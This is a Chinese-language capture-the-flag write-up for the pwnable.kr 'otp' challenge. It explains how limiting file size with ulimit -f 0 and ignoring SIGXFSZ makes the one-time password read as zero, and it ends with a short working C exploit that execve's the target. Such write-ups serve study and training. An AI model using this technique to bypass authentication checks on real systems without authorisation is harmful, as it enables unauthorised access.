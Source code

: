 # pwnable.kr "otp"



这是一道one time password的题，起初思路跑偏了，以为问题可能出在/dev/urandom上，后来网上怎么也找不到能破解/dev/urandom随机性的方法。整道题也不存在任何溢出漏洞。

后来看了writeup才知道可以通过ulimit命令来修改进程所能使用的resource， shell下运行help ulimit,

```bash
ulimit: ulimit [-SHabcdefilmnpqrstuvxT] [limit]
    Modify shell resource limits.
    
    Provides control over the resources available to the shell and processes
    it creates, on systems that allow such control.
    
    Options:
      -S	use the `soft' resource limit
      -H	use the `hard' resource limit
      -a	all current limits are reported
      -b	the socket buffer size
      -c	the maximum size of core files created
      -d	the maximum size of a process's data segment
      -e	the maximum scheduling priority (`nice')
      -f	the maximum size of files written by the shell and its children
      -i	the maximum number of pending signals
      -l	the maximum size a process may lock into memory
      -m	the maximum resident set size
      -n	the maximum number of open file descriptors
      -p	the pipe buffer size
      -q	the maximum number of bytes in POSIX message queues
      -r	the maximum real-time scheduling priority
      -s	the maximum stack size
      -t	the maximum amount of cpu time in seconds
      -u	the maximum number of user processes
      -v	the size of virtual memory
      -x	the maximum number of file locks
      -T    the maximum number of threads

```

可以看到有这么一行

```bash
-f     the maximum size of files written by the shell and its children
```



通过ulimit -f 0命令把size限制为0，程序在fclose的时候会出错不能写入，往后运行的时候fread读出来的也是为空，那么passcode就是永远是0了。

在自己的ubuntu环境下ulimit -f 0后直接./otp 0，就get flag了。但是ssh到pwnbale.kr后发现不行。

```bash
dddong@ubuntu:/media/psf/Home/workspace/CTF/pwnable/otp$ ./otp 0 
File size limit exceeded (core dumped)
```



gdb调试发现程序接收到了SIGXFSZ信号，信号的含义是exceed limited file size。接收到信号之后程序就终止了，可以通过signal函数改变程序接收到SIGXFSZ信号后的处理方式为IGNORE，或者是把SIGXFSZ这个信号加入block_set里面，加入block set的信号并不会立即deliver 给程序，而是会被放在pending set里面（详情可见man 7 signal）。这样程序收到信号后就继续运行下去了。



最后的exp

```C
#include <signal.h>
#include <stdio.h>
#include <stdlib.h>
#include <signal.h>

int main(int argc, char *argv[]) {
        if (argc != 2) {
                printf("Usage: %s target\n", argv[0]);
                exit(0);
        }


/*
 * alternative code

        sigset_t mask;
        sigemptyset(&mask);
        sigaddset(&mask, SIGXFSZ);

        sigprocmask(SIG_BLOCK, &mask, NULL);	//add SIGXFSZ into block set
*/
	signal(SIGXFSZ, SIG_IGN);		//just ignore the SIGXFSZ

        char *arg[] = { "otp", "0", NULL };
        char *env[] = { NULL };

        execve(argv[1], arg, env);	//child process will inherit the signal disposition

        return 0;
}
```

